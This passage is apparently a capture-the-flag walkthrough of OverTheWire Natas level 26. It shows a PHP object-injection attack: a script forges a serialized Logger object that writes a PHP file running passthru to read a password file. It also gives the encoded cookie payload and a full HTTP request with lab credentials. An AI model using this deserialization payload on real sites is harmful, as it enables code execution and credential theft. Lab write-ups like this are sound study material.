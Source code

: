 - So if we somehow change the `logFile` and the `exitMsg` of the instance which we are unserializing, then we can create a PHP file on the server side with our arbitrary content, thereby reading the password for the next level
- Hence for this level, it would be better to have a PHP script of our own that can can provide us the serialized data which we can then send in a cookie which will be unserialized in the code
- We can write a script as follows:
```php
<?php
class Logger{
	private $logFile;
	private $initMsg;
	private $exitMsg;
	function __construct($file){
		// initialise variables
		$this->initMsg="";
		$this->exitMsg="<?php passthru('cat /etc/natas_webpass/natas27'); ?>";
		$this->logFile = "/var/www/natas/natas26/img/pass_exploit.php";
	}

	function log($msg){
	}

	function __destruct(){
	}
}
$instance = new Logger('lol');
echo serialize($instance)."\n";
echo base64_encode(serialize($instance))."\n";
?>
```
- In this script, I've copied the exact same definition of the `Logger` class that was present in our mimic source code, and just modified the values of `exitMsg` and `logFile` property. I've created a log file in the img directory that will contain the PHP exploit code (in our case to extract the password for next level, however we can also do RCE)
- When we run this script, we get the following output:
```text
O:6:"Logger":3:{s:15:"LoggerlogFile";s:43:"/var/www/natas/natas26/img/pass_exploit.php";s:15:"LoggerinitMsg";s:0:"";s:15:"LoggerexitMsg";s:52:"<?php passthru('cat /etc/natas_webpass/natas27'); ?>";}
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MzoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcGFzc19leHBsb2l0LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjA6IiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUyOiI8P3BocCBwYXNzdGhydSgnY2F0IC9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7ID8+Ijt9
```
- The first line contains the serialized data of the logger class, and the second line contains the same data in base64 encoded format, the one in which our cookie is stored
- We can just copy paste the same data in our cookie, and send the request as follows:
```http
GET / HTTP/1.1
Host: natas26.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNjpjVlhYd3hNUzNZMjZuNVVaVTg5UWdwR21XQ2VsYVFsRQ==
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Cookie: drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MzoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcGFzc19leHBsb2l0LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjA6IiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUyOiI8P3BocCBwYXNzdGhydSgnY2F0IC9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7ID8%2bIjt9

```
- For this we get the following response:
```text
```
